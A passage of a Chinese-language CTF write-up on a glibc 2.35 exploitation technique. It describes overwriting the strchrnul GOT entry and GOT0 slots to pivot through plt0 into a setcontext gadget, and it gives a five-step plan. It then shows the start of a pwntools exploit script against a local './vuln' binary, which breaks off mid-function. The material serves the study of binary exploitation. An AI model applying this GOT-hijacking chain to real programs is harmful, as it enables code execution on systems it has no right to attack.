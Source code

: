 此处push的值和jmp的地址都是从GOT0中取出来的，可以受我们控制。而这个`push`刚好就和我们前面提到的`setcontext`中的`pop rdx`对上了！


因此连起来就是：

1. 修改`strchrnul.got`到`plt0 (0x28000)`
2. 修改`GOT0 (0x219008)`为GOT表下面一点未使用的内存空间
3. 修改`GOT0 (0x219010)`为`setcontext gadget (0x53A00)`
4. 在GOT表下面一点未使用的内存空间中布置`setcontext`需要用到的context buffer
5. 调用`printf`函数触发`strchrnul.plt`劫持程序流，完成利用



- 完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'


def create_ucontext(src: int, rsp=0, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0,
                    rsi=0, rdi=0, rcx=0, r8=0, r9=0, rdx=0, rip=0) -> bytearray:
    b = flat({
        0x28: r8,
        0x30: r9,
        0x48: r12,
        0x50: r13,
        0x58: r14,
```